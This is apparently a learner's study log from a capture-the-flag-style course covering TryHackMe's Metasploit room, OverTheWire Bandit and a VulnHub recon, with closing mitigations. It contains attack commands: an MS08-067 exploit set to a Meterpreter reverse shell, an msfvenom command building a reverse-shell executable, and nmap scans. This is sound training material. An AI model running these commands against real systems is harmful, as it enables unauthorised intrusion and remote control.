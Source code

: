 ### 🚀 Day 16: Metasploit | Bandit (0–15) | VulnHub Scriptkiddie
## 📌 Overview

Day 16 was a packed day of learning and practice across three platforms:

TryHackMe Metasploit Room — Focused on scanning, exploitation, Metasploit database, msfvenom payloads.

OverTheWire Bandit (levels 0 → 15) — Strengthened Linux fundamentals through practical challenges.

VulnHub: Funbox Scriptkiddie — Beginner-friendly CTF-style machine, performed initial recon and setup.

## 🔹 TryHackMe — Metasploit Room
Key Topics

Scanning targets with Metasploit

Using the Metasploit database (msfdb)

Conducting vulnerability scans

Exploiting vulnerable services

Generating payloads with msfvenom

Obtaining a Meterpreter session

## Important Commands

# Start and initialize the Metasploit database
msfdb init

# Launch Metasploit
msfconsole

# Database-related commands
db_status
workspace -a tryhackme_lab
hosts
services

# Scan target host
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_ip>
set PORTS 1-1000
run

# Example exploit usage
search ms08_067
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
run

# Generate payload with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe > shell.exe

## 🔹 OverTheWire — Bandit (Level 0 → 15)
Focus Areas

SSH basics

File permissions

Hidden files & directories

Encodings (base64, hex, gzip, bzip2)

Cron jobs

Password retrieval logic

## Important Commands

# SSH into Bandit
ssh bandit0@bandit.labs.overthewire.org -p 2220

# Find hidden files
ls -la

# View file contents
cat <filename>

# Read the first line
head -n 1 <filename>

# Read the last line
tail -n 1 <filename>

# Base64 decode
cat data.txt | base64 -d

# Hex dump & reverse
xxd -r file.hex > file.out

# Search by permissions
find / -user bandit7 -group bandit6 -size 33c 2>/dev/null

# Connect via nc
nc <host> <port>

## 🔹 VulnHub — Funbox: Scriptkiddie
Setup

Downloaded & imported Funbox11.ova

Added entry to /etc/hosts:

funbox11  <target_ip>


Works better with VirtualBox

## Initial Recon
# Host discovery
nmap -sn <target_network>/24

# Full port scan
nmap -p- -T4 <target_ip>

# Service and version detection
nmap -sV -sC -p <ports> <target_ip>

# Add entry for convenience
echo "<target_ip> funbox11" | sudo tee -a /etc/hosts

## 🔑 Key Takeaways

Metasploit is more than just an exploitation tool — its database & msfvenom features make it a full pentest framework.

Bandit reinforces Linux fundamentals that are critical in real-world scenarios.

VulnHub challenges simulate attacker workflows and build applied experience.

## 🛡️ High-Level Mitigations

Keep systems patched (avoid unpatched services like MS08-067 / MS17-010).

Restrict unnecessary services and enforce least privilege.

Secure SSH: disable root login, prefer key-based authentication.

Apply defense-in-depth to minimize exposed attack surfaces.

